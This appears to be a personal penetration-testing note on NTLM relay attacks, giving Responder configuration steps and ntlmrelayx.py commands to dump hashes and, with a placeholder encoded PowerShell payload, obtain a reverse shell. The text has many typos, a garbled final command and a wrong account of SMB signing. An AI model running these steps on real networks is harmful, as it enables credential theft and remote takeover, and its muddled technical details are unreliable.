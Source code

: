 # NTLM Relay Attack

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potential gain access.

Requirements:

SMB singing is disabled or not required, the singing checks for MAC address and password and if it doesnt we can just run that hash and login.

Relayed user credentials must be admin on machine.

SETUP

1\. Run respoder

2\. getdit Responder.conf

3\. take SMB = OFF type OFF

4\. take HTTP = OFF type OFF

5\. Reboot

This means that the responder doesn't relay, another tool will be used for that.

6\. set up the relay

7\. python ntlmrelayx.py -tf targets.txt -smb2support

So basically takes the relay takes the relay and passes on to another file.

This dumps all users , and other hashes.

Summary

We relay the hash to another machine and then we can dump the hashes as long as user that we are relaying from is an admin.

8\. python ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell - hiden bla h balh -enc base64 encoded payload" we can do this with cobalt strike via the web scripted delivery while having a llistener and gain a shell or we could potentially use this with http delivery exploit on metasploit to get a reverse shell.&#x20;

![](../../../.gitbook/assets/2022-10-13\_11-18.png)
